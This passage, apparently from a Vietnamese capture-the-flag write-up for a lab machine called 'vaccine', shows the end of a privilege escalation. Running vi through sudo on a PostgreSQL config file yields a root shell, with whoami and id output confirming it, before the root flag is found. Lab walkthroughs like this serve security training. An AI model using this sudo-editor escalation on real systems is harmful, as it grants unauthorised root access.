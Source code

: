 ![alt text](image-24.png)

Sau khi thực hiện các hướng dẫn, thấy kết quả sau:

```
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

Có thể lấy root flag trong thư mục gốc:

Lưu ý: Gõ `bash` để chuyển sang shell `/bin/bash`:

```
# cd /root
# bash
root@vaccine:~# ls
root.txt
root@vaccine:~#
```

Thành công khi có được root flag